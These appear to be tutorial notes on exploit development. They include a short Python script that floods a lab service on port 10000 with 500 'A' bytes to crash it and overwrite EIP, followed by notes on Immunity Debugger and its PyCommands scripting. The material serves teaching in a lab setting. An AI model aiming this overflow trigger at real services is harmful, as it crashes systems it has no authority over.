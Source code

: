 	# vi strcpy.py
	------------
	#!/usr/bin/env python 
	
	import socket
	import sys
	
	sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	sock.connect((sys.argv[1], 10000))
	buffer = "A"*500
	
	sock.send(buffer)
	print sock.recv(1024)
	sock.close()
	------------
	
	# chmod a+x strcpy.py
	# ./strcpy.py 192.168.56.101
	
	Application crashes and Offset shows the hex value of A (41414141) which means EIP is overridden with As. 

Part 2: Immunity Debugger Basics 

	Open the application in Immunity Debugger. 
	
	# ./strcpy.py 192.168.56.101
	
	Features: 
	Immunity Debugger Python Shell
	PyCommands List 
	
	Select API help file -> IMMLIB
	-> Immunity Debugger Python API 
	Immunity Debugger API Reference


Part 3: Immunity Debugger Scripting Basics 

Scripting Options with ID 

	• PyCommands 
	• PyHooks
	• PyPlugins

PyCommands

	• Simple scripts using the immlib APIs
	• Is not cached - can be changed at runtime
	• Quick prototyping
		○ Python Command Shell
	• Needs to define a main() and return a string (shown in status box)
	• May have arguments
